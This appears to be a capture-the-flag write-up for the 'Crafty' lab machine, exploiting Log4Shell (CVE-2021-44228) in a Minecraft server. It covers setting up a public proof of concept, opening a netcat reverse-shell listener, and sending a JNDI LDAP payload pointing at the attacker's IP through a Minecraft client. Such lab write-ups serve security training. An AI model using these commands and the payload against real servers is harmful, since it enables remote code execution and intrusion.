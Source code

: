 ## Observe the HTTP
Define NS in localhost, then access it:
`$ echo "10.10.11.249 crafty.htb" | sudo tee -a /etc/hosts
`$ firefox crafty.htb`

Minecraft vulnerability refer to: 
- https://nodecraft.com/blog/service-updates/minecraft-java-edition-security-vulnerability
- https://nvd.nist.gov/vuln/detail/CVE-2021-44228
- https://purpurmc.org/docs/purpur/log4j/
- https://github.com/kozmer/log4j-shell-poc

# Pre-Exploit

Testing for log4j poc
```
$ git clone https://github.com/kozmer/log4j-shell-poc
$ wget https://repo.huaweicloud.com/java/jdk/8u181-b13/jdk-8u181-linux-x64.tar.gz
$ tar -xf jdk-8u181-linux-x64.tar.gz 
$ mv jdk1.8.0_181 jdk1.8.0_20
```

Edit the `poc.py`, change the `String cmd` value with it's compability
```
String cmd="cmd.exe"; #for windows shell
```

## Download Minicraft Client
Download `pyCraft`
`$ git clone https://github.com/ammaraskar/pyCraft`

Setup virtualenv for pyCraft:
```
$ virtualenv ENV
$ source ENV/bin/activate
$ pip3 install -r requirements.txt
```

# Exploit
Listening port
`$ rlwrap nc -lvnp 4444`

Running the poc
`$ python3 poc.py --userip 10.10.14.12 --webport 80 --lport 4444`

Then running the pyCraft
```
$ python3 start.py                                   
Enter your username: nbsc7
Enter your password (leave blank for offline mode): 
Enter server host or host:port (enclose IPv6 addresses in square brackets): 10.10.11.249
Connecting in offline mode...
Connected.
${jndi:ldap://10.10.14.12:1389/a}
```

